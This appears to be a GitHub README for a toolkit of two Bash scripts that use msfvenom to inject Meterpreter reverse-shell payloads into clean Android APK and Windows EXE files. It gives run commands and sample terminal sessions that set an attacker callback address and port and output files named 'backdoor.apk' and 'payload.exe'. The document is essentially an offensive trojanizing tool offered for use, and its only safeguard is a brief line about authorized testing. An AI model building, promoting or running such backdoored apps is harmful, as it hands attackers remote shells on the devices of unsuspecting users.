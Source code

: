 Payload Injector Toolkit (APK & EXE)

This toolkit provides two simple yet effective Bash scripts that allow you to inject meterpreter reverse shell payloads into clean APK or EXE files using msfvenom.


---

📁 Included Scripts

1. apk_injector.sh — Android APK Injector

Injects a reverse shell payload into a clean APK file using Metasploit’s msfvenom.

🔧 Features:

Simple interactive interface

Verifies APK file path before processing

Uses msfvenom to inject payload

Outputs a new APK file with embedded payload


🚀 Example Usage:

chmod +x apk_injector.sh
./apk_injector.sh

🖥️ Sample Terminal Interaction:

===============================
        APK Payload Injector   
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 4444
Enter the path to a clean APK file: /root/app.apk
Enter the output file name (e.g., evil.apk): backdoor.apk
[*] Injecting payload into /root/app.apk...
[+] Payload injected successfully! Saved as: backdoor.apk


---

2. exe_injector.sh — Windows EXE Injector

Injects a Windows reverse shell payload into an existing .exe binary.

🔧 Features:

Interactive prompts for easy setup

Validates input EXE file path

Supports any EXE (e.g., notepad.exe) as a base

Uses msfvenom for injection

Generates new malicious EXE


🚀 Example Usage:

chmod +x exe_injector.sh
./exe_injector.sh

🖥️ Sample Terminal Interaction:

===============================
      EXE Payload Injector     
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 5555
Enter the path to a clean EXE file (e.g., notepad.exe): /root/notepad.exe
Enter the output file name (e.g., evil.exe): payload.exe
[*] Injecting payload into /root/notepad.exe...
[+] Payload injected successfully! Saved as: payload.exe


---

⚠️ Notes

These tools rely on msfvenom, part of the Metasploit Framework.

Make sure msfvenom is installed and accessible in your PATH.

Use within ethical boundaries and only in environments you are authorized to test.



---

💬 Feedback

Feel free to submit issues, improvements, or suggestions.
Made with ❤️ for educational and penetration testing use.


---
